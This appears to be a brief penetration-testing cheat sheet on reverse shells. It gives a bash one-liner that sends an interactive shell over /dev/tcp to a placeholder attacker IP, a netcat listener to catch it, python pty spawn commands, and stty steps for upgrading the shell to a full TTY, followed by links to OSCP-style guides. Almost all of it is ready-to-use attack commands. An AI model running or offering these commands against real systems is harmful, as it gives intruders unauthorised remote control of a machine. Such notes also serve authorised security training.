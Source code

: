 
```
bash -c 'bash -i >& /dev/tcp/<attackerIP>/9001 0>&1'
```

```
nc -lvnp 9001
```

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

CTRL + Z
stty raw -echo
fg
<return>
export TERM=xterm

https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


```
$ export SHELL=bash
$ export TERM=xterm256-color
$ stty rows 38 columns 116
```

